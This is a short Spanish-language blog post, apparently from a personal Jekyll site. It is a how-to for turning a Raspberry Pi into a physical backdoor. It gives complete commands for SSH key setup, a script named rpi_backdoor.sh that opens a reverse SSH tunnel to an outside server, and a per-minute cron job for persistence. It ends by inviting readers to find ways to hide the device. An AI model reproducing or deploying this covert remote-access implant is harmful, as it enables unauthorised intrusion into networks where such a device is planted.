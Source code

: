 ```yaml
---
layout: post
title: Raspberry Physical Backdoor
categories: RaspberryPi
---
```


Reverse SSH connection with Raspbian

# Reverse SSH
Estableceremos una conexion de SSH reversa desde la RPi a algun servidor para poder controlar la RPi. Esto se asemeja a una conexion reversa usando netcat, pero con la variante de que este estara cifrado y contara con contraseña. 

# Materiales

* Raspberry pi
* Servidor

# Configuracion llave publica/privada
Para no colocar el usuario y contraseña cada ves que tengamos que conectarnos desde la RPi al servidor generaremos una llave publica ssh desde Raspbian y la subiremos al servidor donde nos conectaremos mas tarde para controlar la Raspberry Pi

### generando llave en la RPi
```
ssh-keygen -b 2048 -t rsa -f /home/pi/.ssh/id_rsa -q -N ""
```

### subiendo la llave publica al servidor
```
scp .ssh/id_rsa.pub <user>@<serverhost>:.ssh/authorized_keys
```

# Automatizando conexion
Creamos un script (robado) llamado `rpi_backdoor.sh` que automatiza la conexion del ssh

``` bash
#!/bin/bash
createTunnel() {
  /usr/bin/ssh -N -R 2222:localhost:22 <user>@<serverhost>
  if [[ $? -eq 0 ]]; then
    echo Tunnel to jumpbox created successfully
  else
    echo An error occurred creating a tunnel to jumpbox. RC was $?
  fi
}
/bin/pidof ssh
if [[ $? -ne 0 ]]; then
  echo Creating new tunnel connection
  createTunnel
fi
```

Tenemos que hacer que conecte cada vez que inicie Raspbian, para eso usamos cron para que la conexion sea persistente.

```
sudo su
echo "*/1 * * * * ~/rpi_backdoor.sh > tunnel.log 2>&1" >> /var/spool/cron/crontabs/pi
```

# Conectando al backdoor
Teniendo ya todo configurado, reiniciamos la RPi y ya podremos conectarnos desde el server

```
ssh pi@localhost -p 2222
```

# Como esconderlo?
Usa la imaginacion ;)
